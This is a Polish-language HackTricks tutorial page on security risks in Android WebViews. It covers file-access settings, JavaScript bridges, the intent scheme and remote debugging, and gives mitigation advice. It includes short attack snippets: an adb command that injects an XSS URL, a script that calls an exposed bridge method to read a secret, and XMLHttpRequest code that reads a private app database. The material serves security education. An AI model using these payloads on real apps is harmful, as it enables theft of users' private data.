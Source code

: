 # Ataki na WebView

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Przewodnik po konfiguracjach i zabezpieczeniach WebView

### Przegląd podatności WebView

Krytycznym aspektem rozwoju aplikacji na Androida jest poprawne zarządzanie WebViews. Ten przewodnik podkreśla kluczowe konfiguracje i praktyki związane z bezpieczeństwem w celu zmniejszenia ryzyka związanego z użyciem WebView.

![Przykład WebView](<../../.gitbook/assets/image (1187).png>)

### **Dostęp do plików w WebViews**

Domyślnie WebViews zezwalają na dostęp do plików. Funkcjonalność ta jest kontrolowana przez metodę `setAllowFileAccess()`, dostępną od poziomu API Androida 3 (Cupcake 1.5). Aplikacje posiadające uprawnienie **android.permission.READ\_EXTERNAL\_STORAGE** mogą odczytywać pliki z zewnętrznego przechowywania za pomocą schematu adresu URL pliku (`file://ścieżka/do/pliku`).

#### **Funkcje przestarzałe: Uniwersalny dostęp i dostęp do plików z adresów URL**

* **Uniwersalny dostęp z adresów URL plików**: Ta funkcja, która została oznaczona jako przestarzała, umożliwiała żądania międzydomenowe z adresów URL plików, co stanowiło znaczne ryzyko bezpieczeństwa związanego z potencjalnymi atakami XSS. Domyślne ustawienie jest wyłączone (`false`) dla aplikacji kierowanych na Androida Jelly Bean i nowsze.
* Aby sprawdzić to ustawienie, użyj `getAllowUniversalAccessFromFileURLs()`.
* Aby zmodyfikować to ustawienie, użyj `setAllowUniversalAccessFromFileURLs(boolean)`.
* **Dostęp do plików z adresów URL plików**: Ta również przestarzała funkcja kontrolowała dostęp do treści z innych adresów URL schematu pliku. Podobnie jak uniwersalny dostęp, domyślnie jest wyłączona dla zwiększonego bezpieczeństwa.
* Użyj `getAllowFileAccessFromFileURLs()` do sprawdzenia i `setAllowFileAccessFromFileURLs(boolean)` do ustawienia.

#### **Bezpieczne ładowanie plików**

Aby wyłączyć dostęp do systemu plików, zachowując jednocześnie dostęp do zasobów i zasobów, używana jest metoda `setAllowFileAccess()`. Dla Androida R i nowszych, domyślne ustawienie to `false`.

* Sprawdź za pomocą `getAllowFileAccess()`.
* Włącz lub wyłącz za pomocą `setAllowFileAccess(boolean)`.

#### **WebViewAssetLoader**

Klasa **WebViewAssetLoader** to nowoczesne podejście do ładowania plików lokalnych. Wykorzystuje adresy URL http(s) do dostępu do lokalnych zasobów i zasobów, zgodnie z zasadą tego samego pochodzenia, ułatwiając zarządzanie CORS.

### loadUrl

To powszechna funkcja używana do ładowania dowolnych adresów URL w webviewie:
```java
webview.loadUrl("<url here>")
```
Oczywiście, potencjalny atakujący nie powinien nigdy móc **kontrolować adresu URL**, który ma zostać załadowany przez aplikację.

### **Obsługa JavaScript i schematu Intent**

* **JavaScript**: Domyślnie wyłączony w WebViews, może być włączony za pomocą `setJavaScriptEnabled()`. Należy zachować ostrożność, ponieważ włączenie JavaScript bez odpowiednich zabezpieczeń może wprowadzić podatności na bezpieczeństwo.
* **Schemat Intent**: WebViews mogą obsługiwać schemat `intent`, co potencjalnie prowadzi do eksploatacji, jeśli nie jest ostrożnie zarządzany. Przykładową podatnością było narażenie parametru WebView "support\_url", który mógł być wykorzystany do wykonania ataków typu cross-site scripting (XSS).

![Podatna WebView](<../../.gitbook/assets/image (1188).png>)

Przykład eksploatacji za pomocą adb:

{% code overflow="wrap" %}
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
{% endcode %}

### Most JavaScript Bridge

Android udostępnia funkcję, która umożliwia **JavaScript** w WebView wywoływanie **funkcji natywnych aplikacji Android**. Osiąga się to poprzez wykorzystanie metody `addJavascriptInterface`, która integruje JavaScript z funkcjami natywnymi Androida, określanymi jako _most JavaScript bridge_. Zaleca się ostrożność, ponieważ ta metoda pozwala wszystkim stronom w WebView na dostęp do zarejestrowanego obiektu interfejsu JavaScript, co stanowi ryzyko bezpieczeństwa, jeśli wrażliwe informacje są ujawnione poprzez te interfejsy.

* **Wymagana jest skrajna ostrożność** dla aplikacji kierowanych do wersji Androida poniżej 4.2 z powodu podatności umożliwiającej zdalne wykonanie kodu poprzez złośliwy JavaScript, wykorzystujący odbicie.

#### Implementacja mostu JavaScript

* **Interfejsy JavaScript** mogą współdziałać z kodem natywnym, jak pokazano na przykładach, gdzie metoda klasy jest udostępniana JavaScriptowi:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
* JavaScript Bridge jest włączony poprzez dodanie interfejsu do WebView:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
* Potencjalne wykorzystanie poprzez JavaScript, na przykład za pomocą ataku XSS, umożliwia wywołanie odsłoniętych metod Javy:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
* Aby zmniejszyć ryzyko, **ogranicz używanie mostka JavaScript** do kodu dostarczonego w pliku APK i zapobiegaj ładowaniu JavaScript z zdalnych źródeł. Dla starszych urządzeń ustaw minimalny poziom API na 17.

### Wykonanie zdalnego kodu (RCE) oparte na refleksji

* Udokumentowana metoda pozwala osiągnąć RCE poprzez refleksję poprzez wykonanie określonego ładunku. Jednak adnotacja `@JavascriptInterface` zapobiega nieautoryzowanemu dostępowi do metody, ograniczając powierzchnię ataku.

### Zdalne debugowanie

* **Zdalne debugowanie** jest możliwe dzięki **Chrome Developer Tools**, umożliwiając interakcję i dowolne wykonanie JavaScript w treści WebView.

#### Włączanie zdalnego debugowania

* Zdalne debugowanie można włączyć dla wszystkich WebViews w aplikacji poprzez:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
* Aby warunkowo włączyć debugowanie na podstawie stanu debugowania aplikacji:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Wyciek arbitralnych plików

* Demonstruje wyciek arbitralnych plików za pomocą obiektu XMLHttpRequest:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## Odnośniki

* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
* [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
* [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
